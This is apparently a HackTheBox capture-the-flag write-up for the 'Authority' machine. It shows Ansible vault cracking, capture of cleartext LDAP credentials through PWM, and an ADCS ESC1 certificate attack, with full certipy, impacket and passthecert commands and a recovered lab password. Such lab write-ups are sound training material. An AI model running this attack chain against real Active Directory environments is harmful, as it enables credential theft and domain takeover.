

# INITIAL ACCESS

## DISCOVERY

The initial port scan revealed several ports related to Active Directory (88, 389, 445...).

The SMB service running on the machine allowed anonymous access to read its Development share. 	


The Development share contained various sensitive information, including an ansible vault at `Automation/Ansible/PWM/defaults/main.yml`


## EXPLOIT 1 - ANSIBLE VAULT CRACKING

It is possible to crack Ansible vaults to reveal the password used to decrypt them. To do this, the following steps were put in place:

First, the vault hashes were stored in individual files without the extra spaces in the beginning.


Then, each file was formatted in a way that `johntheripper` could understand. That was done by using `ansible2john`. The password was easily cracked with the `rockyou.txt` list.

```sh
ansible2john <vault-file> >> pwm_vaults.hash
john --wordlist=/usr/share/wordlists/rockyou.txt pwm_vaults.hash
```


With the decryption password saved on `vault-pass.txt`, the actual content of the vault was retrieved

```sh
cat <vault-file> | ansible-vault decrypt --vault-password-file vault-pass.txt
```


## EXPLOIT 2 - PWM LDAP CLEARTEXT CREDENTIAL CAPTURE

The credentials obtained for `pwm_admin_password` allowed access to a PWM instance running on port 8443. It was possible to reach it at https://authority.htb:8443


On "Configuration Editor", the password obtained worked and granted access.


The PWM application allowed the user to change the LDAP URL. This was abused to replace the default URL with an attacker-controlled URL. The following screenshots demonstrate the URL being changed.


By saving the changes, the application restarted the connection, and the cleartext credentials for the LDAP server were captured on `responder`


The LDAP credentials obtained allowed initial access via WinRM.


# PRIVILEGE ESCALATION

## DISCOVERY

Since the machine was running ADCS, it was possible to enumerate it with [Certify.exe](https://github.com/GhostPack/Certify) (You can find the compiled binary here - at your own risk: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

The enumeration command was `.\Certify.exe find /vulnerable`


## EXPLOIT 3 - ADCS ESC1

According to the results from Certify.exe, the machine contained Misconfigured Certificate Templates (ESC1). The criteria to abuse ESC1 are the following:
1. The Enterprise CA grants low-privileged users enrollment rights.
2. Manager approval is disabled.
3. No authorized signatures are required.
4. An overly permissive certificate template security descriptor grants certificate enrollment rights to low-privileged users.
5. The certificate template defines EKUs that enable authentication.
6. The certificate template allows requesters to specify a subjectAltName (SAN) in the CSR.

More information about ADCS attacks here: https://posts.specterops.io/certified-pre-owned-d95910965cd2

To exploit this, the following steps were taken:

```sh
impacket-addcomputer authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name 'EVIL$' -computer-pass 'P@ssw0rd'
certipy req -u 'EVIL$' -p 'P@ssw0rd' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.129.236.117 -debug
certipy cert -pfx administrator_authority.pfx -nokey -out user.crt
certipy cert -pfx administrator_authority.pfx -nocert -out user.key
python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain authority.htb -dc-ip 10.129.236.117
```

The commands above do the following:

1. Use LDAP account privileges to add a new computer.


2. Request a new certificate from the new computer.


3. Use the certificates obtained to authenticate to LDAP using [passthecert.py](https://github.com/AlmondOffSec/PassTheCert/tree/main) (see [Beyond Root](#Beyond-root)) to understand why).


4. Add a new admin user.



Thus, the new user had administrator privileges over the machine.


# BEYOND ROOT

If you follow [certipy's ESC1 attack instructions](https://github.com/ly4k/Certipy#esc1), it will fail.


This is because the Domain Controller in question does not support PKINIT. This could be because their certificates do not have the "Smart Card Logon" EKU. However, several protocols - including LDAP - support Schannel, thus authentication through TLS.

You can read more about it here:

https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html